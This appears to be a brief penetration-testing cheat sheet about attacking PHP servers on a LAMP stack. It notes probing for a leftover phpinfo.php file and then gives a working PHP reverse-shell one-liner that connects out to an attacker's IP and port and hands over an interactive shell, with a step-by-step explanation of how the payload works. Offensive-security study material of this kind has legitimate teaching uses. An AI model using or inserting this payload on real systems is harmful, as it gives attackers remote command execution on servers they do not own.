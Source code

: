 
# Overview
Part of the common LAMP stack. (Linux, Apache, MySQL, PHP) Can also be windows based with WAMP

# Tools
## Website enumeration
`http://<target>/phpinfo.php` : can see if php file is leftover from installation


Reverse-shell from PHP CGI argument injection
```php
<?php $sock=fsockopen("<IP>" ,1234);exec("/bin/sh -i <&4 >&4 2>&4");?>
```
### Explanation:

1. **`fsockopen("<IP>", 1234)`**:
    - This function opens a TCP connection to a specified IP address (`<IP>`) on port `1234`.
    - The target (attacker's) system listens on that IP and port, waiting for an incoming connection.
    - The `$sock` variable represents the socket connection established between the attacked server and the attacker.
2. **`exec("/bin/sh -i <&4 >&4 2>&4");`**:
    - This runs the `exec` function, which executes a command on the system where the PHP script is running.
    - The command `/bin/sh -i` starts an interactive shell (`-i` option).
    - The file descriptors `<&4`, `>&4`, and `2>&4` mean:
        - `<&4`: Redirect standard input (`stdin`) from file descriptor 4 (which is connected to the socket).
        - `>&4`: Redirect standard output (`stdout`) to the socket (descriptor 4).
        - `2>&4`: Redirect standard error (`stderr`) to the same socket.